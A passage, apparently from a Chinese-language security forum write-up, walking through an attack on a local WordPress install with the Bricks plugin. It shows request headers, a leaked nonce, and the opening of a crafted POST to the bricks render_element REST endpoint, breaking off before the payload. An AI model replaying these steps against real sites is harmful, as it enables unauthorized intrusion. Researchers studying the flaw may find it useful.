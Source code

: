 ```php

Accept-Language: zh-CN,zh;q=0.9

Cookie: wordpress\_test\_cookie=WP+Cookie+check

Sec-Fetch-Site: none

Upgrade-Insecure-Requests: 1

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36

Sec-Fetch-Mode: navigate

sec-ch-ua-platform: "Windows"
```

![图形用户界面, 文本, 应用程序  描述已自动生成](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a8d3a9bf760e650239ff2645977bc570f55ac3dd.png)\*\*

**得到nonce值**

```php
{
    "debug": "",
    "locale": "zh_CN",
    "ajaxUrl": "http://localhost/wordpress/wp-admin/admin-ajax.php",
    "restApiUrl": "http://localhost/wordpress/wp-json/bricks/v1/",
    "nonce": "a980a714d9",
    "wpRestNonce": "31dc189c84",
    "postId": "0",
    "recaptchaIds": [],
    "animatedTypingInstances": [],
    "videoInstances": [],
    "splideInstances": [],
    "tocbotInstances": [],
    "swiperInstances": [],
    "queryLoopInstances": [],
    "interactions": [],
    "facebookAppId": "",
    "offsetLazyLoad": "300",
    "headerPosition": "top"
}
```

**之后发送如下请求**

```php
POST /WordPress-6.4.3/wp-json/bricks/v1/render\_element HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 270
Content-Type: application/json
Accept-Encoding: gzip, deflate, 

{
"postId": "1",
"nonce": " a980a714d9",
"element": {
"name": "container",
"settings": {
```